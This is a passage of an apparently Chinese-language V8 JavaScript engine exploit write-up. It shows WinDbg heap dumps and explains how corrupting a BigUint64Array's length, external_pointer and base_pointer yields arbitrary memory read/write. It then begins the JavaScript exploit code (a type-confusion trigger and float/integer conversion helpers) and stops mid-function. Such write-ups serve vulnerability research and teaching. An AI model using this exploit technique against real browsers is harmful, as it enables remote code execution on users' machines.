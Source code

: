 ```shell
 - prototype: 0x017608202a19 <Object map = 0000017608240699>
 - constructor: 0x017608202999 <JSFunction BigUint64Array (sfi = 000001760818337D)>
 - dependent code: 0x0176080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

0:000> dq 0x017608086319-1+8 L13
00000176`08086320  3ff19999`9999999a 080406e9`08241891	// oob_array[0] oob_array[1]
00000176`08086330  00000002`08086319 080406e9`08241189
00000176`08086340  00000010`080406e9 00000000`00000000
00000176`08086350  00000003`00000000 00000000`00000000
00000176`08086360  00000000`00000000 00000020`08040489
00000176`08086370  00000000`00000000 00000000`00000000
00000176`08086380  080406e9`08240671 08086339`08086369
00000176`08086390  00000000`00000000 00000000`00000010
00000176`080863a0  00000000`00000002 00000176`00000007	// length external_pointer
00000176`080863b0  00000000`08086369					// base_pointer
```

`length`，`external_pointer`和`base_pointer`相对于`oob_array[0]`的偏移为`16`、`17`、`18`，意味着我们可以通过`oob_array[16]`，`oob_array[17]`和`oob_array[18]`来达成任意长度任意地址的读写操作。

```javascript
// 从越界读写到任意地址写

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];	// 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;									// 用来将类型混淆转化为越界读写
var uint64_arw;									// 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;	
var uint64_externalptr_offset;
var uint64_baseptr_offset;	
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;

// 用来实现float和uint的类型转换
var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
// uint-->float
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
	return "0x" + a.toString(16);
}

function empty() {}
function f(p) {
	// 2.42902434121390450978968281326E-319 == 0xC00C
```